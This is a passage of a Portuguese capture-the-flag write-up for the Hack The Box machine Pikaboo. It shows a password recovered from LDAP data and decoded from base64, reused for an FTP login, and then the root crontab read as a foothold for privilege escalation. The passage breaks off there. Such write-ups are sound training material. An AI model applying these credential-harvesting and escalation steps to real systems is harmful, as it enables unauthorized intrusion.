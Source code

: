 ```bash
objectClass: organizationalRole
userPassword:: Sn40MiVXP1BGSGxdZw==

dn: ou=users,dc=pokeapi,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: ou=groups,dc=pokeapi,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups
```
Conseguimos a senha do usuário pwnmeow em `base64`, vamos decriptá-la.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ echo X0cwdFQ0X0M0dGNIXyczbV80bEwhXw== | base64 -d
_G0tT4_C4tcH_'3m_4lL!_  
```

Conseguimos a senha do usuário, porém ela não foi aceita na conexão via `SSH`, vamos tentar o `FTP`.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:hastur): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Conseguimos acesso ao FTP!!!

Porém não encontramos nada de útil, além do diretório `versions` onde temos permissão de escrita, vamos continuar a enumeração local.

### Escalação de privilégios

Ao enumerar as `crons`, identificamos uma cron feita pelo `root`.

```bash
www-data@pikaboo:/opt/pokeapi/config$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
```